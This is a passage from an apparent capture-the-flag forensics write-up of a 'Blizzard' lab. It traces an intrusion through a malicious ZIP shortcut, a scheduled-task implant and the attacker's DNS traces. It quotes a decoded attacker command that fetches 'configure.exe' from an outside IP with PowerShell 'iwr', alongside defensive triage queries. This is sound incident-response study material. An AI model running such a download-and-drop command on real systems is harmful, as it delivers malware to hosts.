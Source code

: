 ![screenshot18](/Blizzard/assets/screenshot18.png)

Note: I had originally decided against unpacking the password-protected `.ZIP` attachment. It might have self-destructed the box or something, forcing me to start over. An easter egg of sorts. After finishing the write-up I went back and took the risk. The archive contains a Windows shortcut that points to the following command encoded in Base64, confirming previous findings about `configure.exe`:
```
iwr -useb http://128.199.247.173/configure.exe -outfile $env:app
```

I now decided to poke around said user home directory, deviating from the room's order of questions. What I found in `C:\Users\m.anderson\Documents\` was a set of custom scripts for various system administration tasks. One of them, `demo_automation.ps1`, which downloads and installs PostgreSQL and connects to a remote computer, comes with a hardcoded password.

![screenshot19](/Blizzard/assets/screenshot19.png)

>What file did the attacker leverage to gain access to the database server? Provide the password found in the file.

Besides answering the last question of the task this explains how the intruder was able to exfiltrate data from `HS-SQL-01`.

>When was the malicious persistent implant created? (format: MM/DD/YYYY HH:MM:SS)

I again shamelessly borrowed from the [Windows Applications Forensics](https://tryhackme.com/r/room/windowsapplications) room, which provides PowerShell code to list all enabled tasks ordered by creation date:

```powershell
Get-ScheduledTask | Where-Object {$_.Date -ne $null -and $_.State -ne "Disabled"} | Sort-Object Date | select Date,TaskName,Author,State,TaskPath | ft
```

![screenshot20](/Blizzard/assets/screenshot20.png)

Only one task was created on the day of the incident, by m.anderson of all users. This must be the answer. Now to the last question in task 2.

>What is the domain accessed by the malicious implant? (format: defanged)

If there is a direct path from the previously found `SysUpdate` task to the answer of this question, I did not find it. There is nothing of relevance in the `C:\Windows\System32\Tasks\Microsoft\Windows\Clip\SysUpdate\SysUpdate` file. So I thought "domain", that's either Active Directory or [DNS](https://en.wikipedia.org/wiki/Domain_Name_System). Going for what I believed was quicker to potentially rule out, I checked the local DNS cache and hosts file first:

![screenshot21](/Blizzard/assets/screenshot21.png)

A popular German proverb roughly translates to "Even a blind hen once in a while finds a kernel of corn". With that I conclude the write-up of task 2.


## Task 3: Initial Access: Discovering the Root Cause
